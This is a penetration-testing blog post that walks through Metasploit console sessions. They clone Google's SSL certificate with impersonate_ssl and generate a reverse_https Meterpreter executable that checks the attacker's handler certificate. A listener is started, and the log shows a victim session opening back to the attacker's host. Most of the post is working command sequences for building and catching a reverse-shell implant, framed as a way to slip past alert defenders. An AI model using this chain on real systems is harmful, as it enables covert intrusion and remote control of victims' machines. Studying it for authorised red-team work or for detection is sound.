 
## Tip: Meterpreter SSL Certificate Validation

Have you ever been in a pentest where the defenders know their stuff and are actively looking to detect and sabotage all of your actions? If not I can say only one thing, it changes the way you approach, plan and execute a penetration test drastically.

I want to share a simple tip on how to secure your initial staged connection for Meterpreter by having it check the certificate of the listener it is connecting to.

We start by generating a certificate in PEM format. Thankfully there is a module for that create by Chris John Riley called impersonate_ssl that will generate one based on the information it gathers from the certificate of a website specified in the RHOST parameter of the module. This allows me to make my cert look almost legitimately. In the Following example I will use Googles SSL cert as my base for my fake one.

    msf > use auxiliary/gather/impersonate_ssl 
    msf auxiliary(impersonate_ssl) > set RHOST www.google.com
    RHOST => www.google.com
    msf auxiliary(impersonate_ssl) > run

    [*] Connecting to www.google.com:443
    [*] Copying certificate from www.google.com:443
    /C=US/ST=California/L=Mountain View/O=Google Inc/CN=google.com 
    [*] Beginning export of certificate files
    [*] Creating looted key/crt/pem files for www.google.com:443
    [+] key: /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_k_189227.key
    [+] crt: /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_c_767214.crt
    [+] pem: /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_p_507862.pem
    [*] Auxiliary module execution completed
    msf auxiliary(impersonate_ssl) > 

Once the certs have been created I can create a HTTP or HTTPS payload for it and give it the path of PEM format certificate to be used to validate the connection. To have the connection validated we need to first tell the payload what certificate the handler will be using by setting the path to the PEM formatted certificate in the HANDLERSSLCERT option then we enable checking of this certificate by setting stagerverifysslcert to true.

    msf > use payload/windows/meterpreter/reverse_http
    msf payload(reverse_http) > set stagerverifysslcert true
    stagerverifysslcert => true
    msf payload(reverse_http) > use payload/windows/meterpreter/reverse_https
    msf payload(reverse_https) > set stagerverifysslcert true
    stagerverifysslcert => true
    msf payload(reverse_https) > set HANDLERSSLCERT /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_p_507862.pem
    HANDLERSSLCERT => /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_p_507862.pem
    msf payload(reverse_https) > set LHOST 192.168.1.211
    LHOST => 192.168.1.211
    msf payload(reverse_https) > set LPORT 8081
    LPORT => 8081
    msf payload(reverse_https) > generate -t exe -f /tmp/payload1.exe
    [*] Writing 73802 bytes to /tmp/payload1.exe...

Once that exe is created I need to create a handler to receive the connection and again I use the PEM style certificate so the handler can use the SHA1 hash for validation. Just like with the Payload we set the parameters HANDLERSSLCERT with the path to the PEM file and stagerverifysslcert to true.

    msf payload(reverse_https) > use exploit/multi/handler 
    msf exploit(handler) > set LHOST 192.168.1.211
    LHOST => 192.168.1.211
    msf exploit(handler) > set LPORT 8081
    LPORT => 8081
    msf exploit(handler) > set HANDLERSSLCERT /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_p_507862.pem
    HANDLERSSLCERT => /home/carlos/.msf4/loot/20150611074516_default_24.41.214.170_www.google.com_p_507862.pem
    msf exploit(handler) > set stagerverifysslcert true
    stagerverifysslcert => true
    msf exploit(handler) > exploit -j

    [*] Meterpreter will verify SSL Certificate with SHA1 hash 5fefcc6cae228b92002a6d168c5a78d495d8c884
    [*] Exploit running as background job.

When we get execution of the payload on a target we can see the stage doing the validation when it sets up the session.

    msf exploit(handler) > [*] Starting the payload handler...
    [*] 192.168.1.104:56107 (UUID: db09abc1d1831687/x86=1/windows=1/2015-06-11T12:28:50Z) Staging Native payload ...
    [*] Meterpreter will verify SSL Certificate with SHA1 hash 5fefcc6cae228b92002a6d168c5a78d495d8c884
    [*] Meterpreter session 1 opened (192.168.1.211:8081 -> 192.168.1.104:56107) at 2015-06-11 08:28:51 -0400

